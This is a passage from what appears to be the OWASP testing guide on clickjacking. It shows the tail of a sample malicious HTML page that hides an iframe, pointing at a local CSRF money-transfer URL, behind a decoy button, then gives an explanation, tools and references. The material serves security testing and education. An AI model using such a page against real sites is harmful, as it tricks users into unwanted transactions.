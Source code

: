 ```
	</head>
	<body>
		<div id="content">
			<h1>www.owasp.com</h1>
			<form action="http://www.owasp.com">
				<input type="submit" class="button" value="Click and go!">
			</form>
		</div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
	</body>
</html>

```


With the help of CSS (note the #clickjacking block) we can mask and suitably position the iframe in such a way as to match the buttons. If the victim click on the button "Click and go!" the form is submitted and the transfer is completed.

![Image:clickjacking_example_malicious_page_3.png|400px|thumb|center](https://www.owasp.org/images/thumb/4/43/Clickjacking_example_malicious_page_3.png/400px-Clickjacking_example_malicious_page_3.png)


The example presented uses only basic clickjacking technique, but with advanced technique is possible to force user filling form with values defined by the attacker.


###Tools
* Context Information Security: "Clickjacking Tool" - http://www.contextis.com/research/tools/clickjacking-tool/

### References
**OWASP Resources**
* [Clickjacking](https://www.owasp.org/index.php/Clickjacking)


**Whitepapers**
* Marcus Niemietz: "UI Redressing: Attacks and Countermeasures Revisited" - http://ui-redressing.mniemietz.de/uiRedressing.pdf
* "Clickjacking" - https://en.wikipedia.org/wiki/Clickjacking
* Gustav Rydstedt, Elie Bursztein, Dan Boneh, and Collin Jackson: "Busting Frame Busting: a Study of Clickjacking Vulnerabilities on Popular Sites" - http://seclab.stanford.edu/websec/framebusting/framebust.pdf
* Paul Stone: "Next generation clickjacking" - https://media.blackhat.com/bh-eu-10/presentations/Stone/BlackHat-EU-2010-Stone-Next-Generation-Clickjacking-slides.pdf
